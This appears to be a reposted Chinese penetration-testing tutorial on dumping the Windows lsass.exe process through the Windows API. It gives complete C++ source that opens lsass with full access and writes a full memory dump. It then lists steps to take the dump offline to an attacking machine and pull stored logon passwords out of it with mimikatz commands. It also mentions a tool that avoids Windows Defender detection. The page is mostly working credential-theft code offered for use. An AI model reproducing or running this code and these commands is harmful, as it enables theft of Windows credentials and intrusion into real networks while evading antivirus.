

# 利用 windows api dump 进程

> 原文：[http://book.iwonder.run/内网渗透/内网渗透/利用 windows api dump 进程/1.html](http://book.iwonder.run/内网渗透/内网渗透/利用 windows api dump 进程/1.html)

## c++源代码

```
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
    DWORD lsassPID = 0;
    HANDLE lsassHandle = NULL; 
    HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
        wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
    }

    lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
    BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

    if (isDumped) {
        cout << "[+] lsass dumped successfully!" << endl;
    }

    return 0;
} 
```

[https://github.com/ianxtianxt/windows-api-dump/](https://github.com/ianxtianxt/windows-api-dump/)

## 执行演示

### 执行 CreateMiniDump.exe（上面的编译文件）或编译自己的二进制文件

### Lsass.dmp 被转储到工作目录

### 让 lsass.dmp 离线到你的攻击机器上

### 打开 mimikatz 并加载到转储文件中

### 储存密码

.\createminidump.exe .\mimikatz.exe sekurlsa::minidump c:\temp\lsass.dmp sekurlsa::logonpasswords


可以在 mimikatz 中离线读取



这里有一个 pdocdump 可以执行相同的操作，并且不会被 windows defender 标记。

